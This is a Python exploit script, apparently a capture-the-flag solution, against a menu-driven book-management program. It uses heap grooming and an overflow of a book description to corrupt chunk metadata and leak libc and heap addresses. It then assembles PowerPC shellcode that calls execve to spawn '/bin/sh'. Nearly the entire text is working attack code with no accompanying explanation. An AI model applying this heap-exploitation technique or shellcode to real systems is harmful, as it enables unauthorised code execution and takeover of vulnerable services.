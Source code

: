 ```python
def dele(name):
    r.sendlineafter('cmd> ', str(4))
    r.sendlineafter('Book name: ', name)

r = get_sh()

heap = 0
sc=''

add('1', 0x18, 'G'*0x17+'\n')
add('2', 0x18, 'G'*0x17+'\n')
dele('2')
for i in range(7):
    add('2', 0x10*(i+2)+8, 'G'*(0x10*(i+2)+7)+'\n')
    add('3', 0x10*(i+2)+8, 'G'*(0x10*(i+2)+7)+'\n')
    dele('2')
    dele('3')

for i in range(8):
    edit('1', 'Z'*(0x19+i)+'\n')
edit('1', 'Z'*0x18+'\x00'*6+'\x04\x41'+'\n')
add('4', 0x18, '1\n')
dele('4')
for i in range(13):
    edit('1', 'Z'*(0x19+i)+'\n')
show('1')
r.recvuntil('Book description: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ')
libc.address = u64('\x00\x00\x00\x40\x00'+r.recv(3))+0x848-libc.sym['__malloc_hook']
for i in range(0x50):
    edit('1', 'Z'*(0x19+13+i)+'\n')
show('1')
r.recvuntil('Book description: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ')
heap = u64('\x00\x00\x00\x40\x00'+r.recv(3))

binsh = heap+0x4d8

sc1='''
li 3, 0
li 4, 0
li 5, 0
li 0, 11
xor 3,3,9
addi 3,3,36
sc
'''

sc2='''
li 3, 0
li 4, 0
li 5, 0
li 0, 11
addis 3, 4, 8
addi 4, 4, 19
sld 3, 3, 4
li 4, 0
addis 4, 4, {}
addi 3, 3, {}
addi 3, 3, {}+24
add 3, 3, 4
li 4, 0
sc
'''.format((binsh&0xff0000)>>16, (binsh&0xffff)/2, (binsh&0xffff)/2)
```